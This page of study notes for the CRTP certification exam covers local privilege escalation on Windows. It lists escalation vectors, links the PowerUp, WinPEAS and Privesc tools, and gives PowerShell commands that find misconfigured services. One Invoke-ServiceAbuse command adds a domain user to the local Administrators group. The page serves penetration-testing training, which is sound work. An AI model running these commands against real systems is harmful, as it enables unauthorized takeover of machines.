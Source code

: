 # Local Privilege Escalation

{% hint style="info" %}
The CRTP exam consists of 5 target servers in addition to a foothold student machine.\
The goal is to OS level command execution on all 5 targets not matter what the privileges of the user.
{% endhint %}

## Vectors

#### There are various ways of locally escalating privileges on Windows box:

* Missing patches – Automated deployment and AutoLogon passwords in clear text
* AlwaysInstallElevated (Any user can run MSI as SYSTEM)
* Misconfigured Services – DLL Hijacking and more
* NTLM Relaying a.k.a. Won't Fix

This guide offer a sufficiently comprehensive overview of the course material for local privilege escalation

{% embed url="https://github.com/0xStarlight/CRTP-Notes/blob/main/2-Local-Priv-Esc/1-Local-PrivEsc.md" %}

## Tools

### PowerUp

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1" %}

### WinPEAS

{% embed url="https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS" %}

### Privesc

{% embed url="https://github.com/enjoiz/Privesc" %}

### Automated checks

```powershell
# PowerUp
Invoke-AllChecks

# winPEAS
winPEASx64.exe 

# Privesc
Invoke-PrivEsc
```

## Services

{% tabs %}
{% tab title="PowerUp" %}
Find vulnerable service configuration

```powershell
# Get services with unquoted paths and spaces
Get-UnquotedService -Verbose

# Get services where current user can write to binary path
Get-ModifiableServiceFile -Verbose

# Get the services whose configuration current user can modify
Get-ModifiableService -Verbose
```

Add domain user to the local Administrators group

```powershell
# Get help commands
help Invoke-ServiceAbuse -Examples
# Practical use
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx' -Verbose
# Verify if the above command worked or not with
net localgroup administrators  
```
{% endtab %}

{% tab title="PowerShell" %}
Get all the service path names from where the service is executing.

```powershell
Get-WmiObject -Class win32_service | select pathname
```

Get ACLs of running service

```powershell
sc.exe sdshow <servicename>
```
{% endtab %}
{% endtabs %}
